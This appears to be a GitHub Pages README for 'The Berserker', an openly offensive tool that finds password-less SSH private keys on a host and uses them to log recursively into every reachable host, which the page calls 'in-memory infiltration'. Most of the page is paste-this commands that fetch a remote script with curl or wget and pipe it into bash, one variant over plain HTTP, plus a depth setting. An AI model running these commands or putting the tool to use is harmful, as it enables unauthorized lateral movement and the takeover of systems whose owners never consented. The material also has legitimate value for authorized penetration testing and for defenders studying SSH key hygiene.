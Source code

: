 ```yaml
---
layout: default
title: Berserker
---
```


{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

The Berserker looks for password-less ssh-keys (such as ```~/.ssh/id_rsa```) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start The Berserker:
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```
```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

### Tips & Tricks

* Press ```CTRL-C``` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to ```BS_DEPTH=1``` will make The Berserker log into the next host but not any farther.
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

### When HTTPS is not available
```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

### Alpha Testing
THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:
* #!adm for testing and comments

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


